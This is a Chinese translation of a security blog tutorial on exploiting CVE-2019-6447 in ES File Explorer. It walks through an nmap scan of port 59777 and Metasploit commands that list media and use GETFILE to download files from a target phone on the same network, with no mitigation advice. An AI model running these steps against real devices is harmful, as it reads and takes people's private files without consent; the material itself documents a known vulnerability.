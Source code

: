 # ES 文件浏览器开放端口漏洞利用

> 原文：<https://infosecwriteups.com/es-file-explorer-open-port-vulnerability-exploitation-a41b328c2d2c?source=collection_archive---------1----------------------->

![](img/d1dcdacb7a04b8e7eaffec4610569eea.png)

图像[来源](https://null-byte.wonderhowto.com/how-to/android-for-hackers-scan-websites-for-vulnerabilities-using-android-phone-without-root-0190105/)

ES 文件浏览器(文件管理器)是一个全功能的文件(图像，音乐，电影，文档，应用程序)管理器，既可以本地使用，也可以联网使用！ES File Explorer(文件管理器)在全球拥有超过 5 亿用户，可帮助您高效管理您的 android 手机和文件，并在没有数据成本的情况下共享文件。

2019 年 1 月，一名安全研究人员在 ES 文件浏览器中发布了一个安全漏洞(CVE-2019–6447)。

这适用于版本 4.1.9.7.4。允许同一网络上的攻击者执行应用程序、读取文件和敏感的个人数据。该应用程序在运行时保持 TCP 端口 59777 打开，并通过 http 响应假冒请求。

**要执行此攻击，您需要:**

1.  *Kali Linux 或任何 Linux 发行版*
2.  *Msfconsole*
3.  *目标手机应已安装 ES 文件浏览器版本 4.1.9.7.4*
4.  *攻击者和受害者应该在同一个网络上*
5.  *应用程序也必须运行，以便端口 59777 保持打开*

每次用户启动应用程序时，都会启动一个 HTTP 服务器。该服务器正在本地打开端口 59777:

您可以 nmap 到目标并查看端口是否打开；

```
nmap -p 59777 192.168.1.1
```

![](img/59fd0fb1bd1504a02bcb0968a2874b6a.png)

图 1

如果你找不到你的 IP 地址，请看上图。

启动 metasploit 框架；

```
msfconsole
```

搜索 es_file 漏洞利用；

```
msf6 > search es_file
```

![](img/0c5701496a53ccb9e6c6402bfa92bca0.png)

图 2

选择漏洞利用模块；

```
msf6 > use auxiliary/scanner/http/es_file_explorer_open_port
```

显示选项以检查可用选项；

```
msf6 > show options
```

![](img/8b9bcd6ea70734d0601457b37b8d2fdb.png)

图 3

您看到远程主机(RHOSTS)没有指定，所以将 RHOSTS 设置为您的目标手机的 IP 地址；

```
msf6 > set RHOSTS 192.168.1.1
```

![](img/dea6aa72efdb8afcdb28a577d39ebbf6.png)

图 4

现在运行漏洞利用；

```
msf6 > run
```

![](img/189f567509bbe0aefd9dce1f216f22bf.png)

图 5

您可以查看手机的详细信息。

显示操作以列出所有可用的操作；

```
msf6 > show actions
```

![](img/d72bb87edbaf550aab08ce43a9ae1a48.png)

图 6

将动作设置为列出您想要的任何内容，在本例中，我将它设置为“LISTVIDEOS”

```
msf6 > set action LISTVIDEOS
```

![](img/cc339ca82cfb9bc435a6ab8a55f84c03.png)

图 7

现在我们都准备好了，给运行命令；

```
msf6 > run
```

![](img/854545c3edc208f118a424561bf5d880.png)

图 8

你可以看到我手机上列出的所有音频文件。

如果你愿意，我们可以下载任何文件。

您需要将操作设置为 GETFILE

```
msf6 > set action GETFILE
```

![](img/4f3adffd7aa26168c8beaac85210edbd.png)

图 9

并将 ACTIONITEM 设置为文件名，其中包含您要从上一步中找到的可用列表中下载的路径；

```
msf6 > set ACTIONITEM /pathto/123.mp3
```

![](img/062782794de7e7309828a3eccdd0e757.png)

图 10

现在运行漏洞利用；

```
msf6 > run
```

![](img/02a9b654cda56fe5bdc5a618bbd1fb80.png)

就这样，现在你已经成功地从受害者的手机上下载了一个文件！！！。

观看此视频，了解分步指南；

如果你喜欢这篇文章，请给我一两个掌声。

*来自 Infosec 的报道:Infosec 上每天都会出现很多难以跟上的内容。* [***加入我们的每周简讯***](https://weekly.infosecwriteups.com/) *以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！*
